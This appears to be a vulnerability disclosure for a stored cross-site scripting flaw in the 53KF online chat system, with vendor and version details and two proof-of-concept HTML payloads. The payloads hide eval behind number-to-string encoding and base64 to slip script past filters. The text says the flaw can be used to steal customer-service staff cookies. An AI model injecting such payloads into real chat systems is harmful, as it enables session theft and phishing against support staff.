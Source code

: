 ## 53KF_vuln_xss

When using the 53KF online chat system, it is found that the inserted HTML statements can be successfully executed, and the alarm window and JS script can be executed successfully, thus stealing customer service staff cookies or fishing operations.

## description ：

Cross Site Scripting (XSS) vulnerability in 53KF online chat system product, Affecting versions < 2.0.0.2 . The vulnerabilities could be remotely exploited resulting in Cross-Site Scripting (XSS) or information disclosure.

Exploit Title: There is a stored Cross Site Scripting in 53KF

Date: 2020/10/27

Exploit Author: panzhenhua

Vendor Homepage: http://www.53kf.me/

Version: < 2.0.0.2

Tested on: macOS

## POC:

1、<input type=text autofocus onfocus=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))//

2、<details open ontoggle=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))>

## verification
Open 53 online customer service chat window to inject POC
![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/2.png
Close the chat window and open it again. The attack is successful
![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/2.png
